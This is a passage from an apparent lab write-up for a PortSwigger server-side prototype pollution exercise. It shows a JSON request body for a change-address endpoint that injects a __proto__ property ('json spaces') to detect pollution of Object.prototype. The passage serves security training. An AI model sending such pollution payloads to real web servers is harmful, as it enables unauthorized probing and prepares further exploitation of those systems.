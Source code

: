 
Armed with above information, we can try to **test the web application is vulnerable to server-side prototype pollution**!

In `/my-account/change-address`, `POST` or `PUT` requests that submit JSON data to an application or API are prime candidates for this kind of behavior as it's common for servers to respond with a JSON representation of the new or updated object. In this case, you could attempt to pollute the global `Object.prototype` with an arbitrary property.

### Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`

To do so, we could use `__proto__` to pollute the global `Object.prototype`, and using "JSON spaces override" technique to detect server-side prototype pollution:

```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "5nRtK7kb8P9i60GkjJHYKZPII7ywBO1n",
    "__proto__": {
        "json spaces": 1
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-9/images/Pasted%20image%2020230222195614.png)

